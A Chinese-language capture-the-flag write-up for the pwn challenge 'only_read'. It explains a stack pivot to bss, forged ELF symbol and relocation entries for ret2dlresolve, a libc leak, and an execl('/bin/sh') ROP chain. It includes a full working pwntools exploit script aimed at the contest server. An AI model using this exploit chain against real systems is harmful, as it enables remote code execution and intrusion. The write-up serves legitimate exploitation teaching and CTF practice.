



# only_read

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

整个程序非常简单，`main`就构造了一个很大的栈溢出，也没啥gadget，但至少没开PIE。
一旦能打栈迁移到bss，就有机会打dl_resolve，实现任意符号解析（但是控制不了参数）。

第一步控制`rbp`到bss上，第二步向bss上读入要伪造的符号和rop链再次读入，
第三步执行伪造的`write`泄露libc并把open shell的rop链写到bss上，执行拿shell。

第一步和第三步都没啥好说的，唯一比较麻烦的就是符号伪造。
还好我以前[做过类似的题](https://rocketma.dev/2023/10/10/W3_dlresolve/)，
可以用来借鉴。

> [!WARNING]
> 原博客对于`reloc_arg`的描述有误，它是相对于`__DT_JMPREL`的，
> 不是相对于`__DT_SYMTAB`，现已更新。

这次我采用了人工构造的方式去伪造一个`write`符号，即`Elf64_Sym`和`Elf64_Rela`，
接下来将图解我构造的结构体：



> [!IMPORTANT]
> `fake_sym`和`fake_rel`需要分别对齐到从`symtab`和`jmprel`开始的0x18边界上，
> 否则`_dl_fixup`不能正确读取我们的伪造的符号。可以看以下代码中的`test_offsets`做参考。

当开始执行`plt_init`时，就会运行`_dl_runtime_resolve_xsavec`，随后执行`_dl_fixup`，
将我们伪造的各种数据作为参数开始解析`write`函数并运行，如下图所示：



由于在执行`write`前，`write@libc`就会被写入，因此执行时就会泄露libc，
之后再次读入payload时就可以构造`execl("/bin/sh", "/bin/sh", NULL)`打开shell。

在这个过程中，`rdi`和`rdx`保持不变，因此会输出很多字节；由于对于远程来说，
`fd = 0`和`fd = 1`是完全一致的，都是socket，就像直接在终端打开，都是`/dev/pts/1`，
因此，`fd = 0`既可以读也可以写。但是pwntools不一样，使用`process`打开进程，
`fd = 0`会指向一个无名管道，而这个管道只能读不能写，因此向`fd = 0`中`write`数据不可行。
为了避免这个问题，我采用了用docker起一样的libc环境，然后由 *xinetd* 起一个 *gdbserver*，
这样就可以实现远程调试。具体见我[StackLogout的出题博客](https://rocketma.dev/2024/12/22/StackLogout/)。

> [!IMPORTANT]
> 当我起了容器开始调试以后，突然发现在本地能打的脚本远程突然就打不了了，
> 一看是`strtab`和`symtab`变了。原来在patchelf的时候，`strtab`和`symtab`会变化，
> 变得更低一些。也是因为这个原因，patch过的人和没patch的人脚本就不一样，
> 所以官方靶机布置了4个，我由于在docker里还原了libc，跑的程序就没patch，
> 本地能跑通的脚本，放到远程只有3号机可以，其他均不行。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './only_read'

def payload(lo: int):
    global t
    if lo:
        if lo & 2:
            t = remote('127.0.0.1', 3073)
            gdb.attach(('127.0.0.1', 4097),
                       '''
                       dir /usr/src/debug/glibc-2.39/
                       tb *0x40115e
                       c
                       ''',
                       EXE)
        else:
            t = remote('127.0.0.1', 2049)
    else:
        t = remote('1.95.129.168', 9999)
        t.recvuntil(b'`')
        cmd = t.recvuntil(b'`', drop=True)
        proof = process(cmd.split())
        proof.recvuntil(b'stamp: ')
        t.send(proof.recv())
        proof.close()
        t.recvuntil(b'Here is your challenge')
        success('Proof of Work passed!')

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # interupt when this script is not working
    def failure(msg: str):
        if b'chroot' in t.recv():
            log.failure(msg)
            t.close()

    def test_offsets(symidx: float, relidx: float) -> bool:
        no_mismatch = True
        if symidx > int(symidx):
            log.failure('SYM_OFFSET couldn\'t meet symtab[ELFW(R_SYM)(reloc->r_info)]!')
            no_mismatch = False
        if relidx > int(relidx):
            log.failure('REL_OFFSET couldn\'t meet l_info[DT_JMPREL] + reloc_arg!')
            no_mismatch = False
        return no_mismatch

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
    elf = ELF(EXE)
    # to write 0x800 bytes, buf + count must be accessible, so + 0x880 is maximum
    bss = (elf.bss() & ~0xfff) + 0x800
    read_raw = 0x401142
    dl_resolve = 0x401020

    strtab = 0x400430
    symtab = 0x4003d0
    jmprel = 0x4004e0

    # Payload 1: re-read to pivot stack to bss section
    read_to_bss = flat(b'0' * 0x80, bss, read_raw)
    t.send(read_to_bss)
    delay()

    # Payload 2: fake Elf64_Sym and Elf64_Rela to misuse dl_resolve,
    # store write@libc on bss and then write it to leak libc,
    # then re-read to perform ret2libc
    SYM_OFFSET = 0x18
    SYM_INDEX  = (bss - 0x80 + SYM_OFFSET - symtab) / 0x18
    REL_OFFSET = 0x38
    REL_INDEX  = (bss - 0x80 + REL_OFFSET - jmprel) / 0x18
    fake_sym = flat({
        0: b'write', # symbol name

        # Elf64_Sym
        SYM_OFFSET: [
            bss - 0x80 - strtab, # st_name, offset from strtab to "write"
            # rest members of Elf64_Sym is 0
        ],

        # Elf64_Rela
        REL_OFFSET: [
            bss - 8,                    # r_offset, where to write write@libc
            7 | (int(SYM_INDEX) << 32), # r_info
            # r_append in Elf64_Rela is 0
        ],

        # to re-read, reset rbp is needed. do not impact read@libc stack frame
        0x80: bss - 0x100,
        # rop chain
        0x88: [
            dl_resolve,
            int(REL_INDEX),
            read_raw,
        ],
    }, filler=b'\0')
    assert test_offsets(SYM_INDEX, REL_INDEX), 'At least one offset is wrong'
    t.send(fake_sym)
    try:
        t.recvuntil(b'write'.ljust(8, b'\0')) # align
    except EOFError:
        # NOTE: patchelf'ed elf has different strtab and symtab, which may lead to crash
        failure('Failed to leak libc!')
        return
    libc_base = u64(t.recv(0x78)[-8:]) - libc.symbols['write']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    delay()

    # Payload 3: call execl("/bin/sh", "/bin/sh", NULL) to get a shell
    gadgets = ROP(libc)
    rdx_set_0_addr = libc_base + 0x116114 # xor edx, edx; call rax
    sh_addr = next(libc.search(b'/bin/sh'))
    call_execl = flat(b'\0'.ljust(0x88, b'\0'),
                      gadgets.rax.address, libc.symbols['execl'],
                      gadgets.rdi.address, sh_addr,
                      gadgets.rsi.address, sh_addr,
                      rdx_set_0_addr)
    t.send(call_execl)

    t.clean()
    t.interactive()
    t.close()
```



## 参考

1. [newstar2023 week3 - dlresolve - RocketDevlog](https://rocketma.dev/2023/10/10/W3_dlresolve/)
2. [赛博杯新生赛 2024 - StackLogout 出题博客 - RocketDevlog](https://rocketma.dev/2024/12/22/StackLogout/)
